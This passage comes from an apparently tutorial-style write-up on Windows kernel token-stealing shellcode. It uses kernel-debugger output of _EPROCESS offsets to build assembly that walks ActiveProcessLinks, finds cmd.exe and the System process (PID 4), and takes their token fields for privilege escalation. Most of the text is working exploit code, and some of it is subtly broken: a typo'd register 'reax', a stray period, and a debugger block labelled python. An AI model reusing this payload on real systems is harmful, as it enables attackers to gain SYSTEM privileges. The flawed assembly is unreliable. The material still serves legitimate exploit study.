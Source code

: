 Theoretically, we should be checking ``conhost.exe``, meaning we should go one layer deeper—our PPID should be ``0x1a8c``.
```
kld> dt _EPROCESS
+0x3e8 InheritedFromUniqueProcessId : Ptr64 Void
```

In nasm:
```nasm
mov r8, qword ptr[r9+0x3e8] ; new offset, previous was 3e0
```

We’ve now saved the PID of `cmd.exe`, but before proceeding, we need to locate its `_EPROCESS` address in memory. If we inspect the current process (`kscldr.exe`), we can see that at offsets `0x2e8` and `0x2f0` we have `UniqueProcessId` and `ActiveProcessLinks`. The latter is a linked list of `_EPROCESS` objects that can be traversed and compared against the `cmd.exe` PID stored in `r8`.
```python
lkd> dx @$cursession.Processes[6076]
  [+0x000] Pcb              [Type: _KPROCESS]
    [+0x2e0] ProcessLock      [Type: _EX_PUSH_LOCK]
    [+0x2e8] UniqueProcessId  : 0x17bc [Type: void *]
    [+0x2f0] ActiveProcessLinks [Type: _LIST_ENTRY]
```

Which results in:
```nasm
mov rax, r9
loop1:
	mov rax, qword ptr [rax + 0x2f0]
	sub rax, 0x2f0
	cmp qword ptr[rax + 0x2e8],r8
	jne loop1
```

Once we've found the `cmd.exe` `_EPROCESS` structure, we can inspect it and find at offset `0x360` the token object:
```
lkd> dx -id 0,0,ffffa88f4ce8e080 -r1 (*((ntkrnlmp!_EPROCESS *)0xffffa88f4ce8e080))
(*((ntkrnlmp!_EPROCESS *)0xffffa88f4ce8e080))                 [Type: _EPROCESS]
    [+0x000] Pcb              [Type: _KPROCESS]
    [+0x2e0] ProcessLock      [Type: _EX_PUSH_LOCK]
    [+0x2e8] UniqueProcessId  : 0x17bc [Type: void *]
    [...]
    [+0x360] Token            [Type: _EX_FAST_REF]
```

Store that in the ``rcx`` register:
```nasm
mov rcx, rax
add rcx, 0x360
```

Now we just need to find the `System` process (PID 4) and extract its token. We loop through the same linked list as before until we find a process with ID 4:
```nasm
mov rax, r9
loop2:
	mov rax, qword ptr [rax +0x2f0].
	sub rax, 0x2f0
	cmp [rax + 0x2e8], 4
	jne loop2
	mov rdx, reax
	add rdx, 0x360
```
